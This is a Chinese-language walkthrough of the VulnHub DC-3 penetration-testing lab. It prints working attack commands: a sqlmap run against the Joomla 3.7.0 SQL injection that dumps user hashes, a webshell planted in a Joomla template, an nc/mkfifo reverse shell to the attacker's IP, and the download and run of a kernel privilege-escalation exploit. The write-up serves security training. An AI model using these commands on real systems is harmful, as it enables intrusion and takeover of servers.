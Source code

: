 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC3-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-24
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC3
comment: false
typora-root-url: ..\..\..\..\.vuepress\public

---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-3,312/>

**DESCRIPTION**

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

只有一个flag

## 0x02 信息收集

靶机使用virtual box部署，kali使用vmware部署，都为桥接模式

nmap扫描网段

```
nmap -sP 172.21.34.0/24
```

![image-20210924101423240](/assets/img/image-20210924101423240.png)

发现靶机IP：172.21.34.31，继续扫描

```
nmap -T5 -A -v -p- 172.21.34.31
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 10:04 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating ARP Ping Scan at 10:04
Scanning 172.21.34.31 [1 port]
Completed ARP Ping Scan at 10:04, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:04
Completed Parallel DNS resolution of 1 host. at 10:04, 0.00s elapsed
Initiating SYN Stealth Scan at 10:04
Scanning 172.21.34.31 [65535 ports]
Discovered open port 80/tcp on 172.21.34.31
Completed SYN Stealth Scan at 10:04, 1.27s elapsed (65535 total ports)
Initiating Service scan at 10:04
Scanning 1 service on 172.21.34.31
Completed Service scan at 10:04, 11.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 172.21.34.31
NSE: Script scanning 172.21.34.31.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.41s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.04s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Nmap scan report for 172.21.34.31
Host is up (0.00072s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:2E:55:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Wed Mar 10 08:55:41 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 172.21.34.31

NSE: Script Post-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，运行的Joomla

## 0x03 漏洞利用

使用msf查看Joomla版本为3.7.0

![image-20210924102654550](/assets/img/image-20210924102654550.png)

搜索Joomla 3.7.0版本漏洞

![image-20210924102850545](/assets/img/image-20210924102850545.png)

发现CVE-2017-8917 SQL注入漏洞： https://www.exploit-db.com/exploits/42033

上sqlmap

```txt
sqlmap -u "http://172.21.34.31/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

发现用户

![image-20210924103753282](/assets/img/image-20210924103753282.png)

使用john爆破，得到密码

![image-20210924104911090](/assets/img/image-20210924104911090.png)

在`http://172.21.34.31/administrator/index.php`登录，发现模板编辑功能，可以愉快的加马了，修改Beez3模板下index.php，加上一句话

![image-20210924111319969](/assets/img/image-20210924111319969.png)

修改完成后将Beez3模板设置为默认模板，使用蚁剑连接成功

![image-20210924111451058](/assets/img/image-20210924111451058.png)

![image-20210924111544587](/assets/img/image-20210924111544587.png)

先拿shell，kali上运行

```
nc -lvp 4444
```

因为靶机上是openbsd nc，不支持-e，所以使用以下命令反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![image-20210924141311663](/assets/img/image-20210924141311663.png)

## 0x04 提权

查看当前目录下，未找到flag相关文件，考虑提权，根据ubuntu和内核版本搜索相关漏洞

```
searchsploit -w ubuntu 16.04 4.4
```

![image-20210924141536034](/assets/img/image-20210924141536034.png)

使用CVE-2016-4557：https://www.exploit-db.com/exploits/39772

kali下载EXP

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip  --no-check-certificate
```

启动web服务

```
python -m SimpleHTTPServer 8090
```

靶机下载，解压，编译运行

```
wget http://172.21.34.30:8090/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
sh compile.sh
./doubleput
```

提权成功获得root权限，在`/root/`下发现flag文件，获得flag

![image-20210924142338904](/assets/img/image-20210924142338904.png)
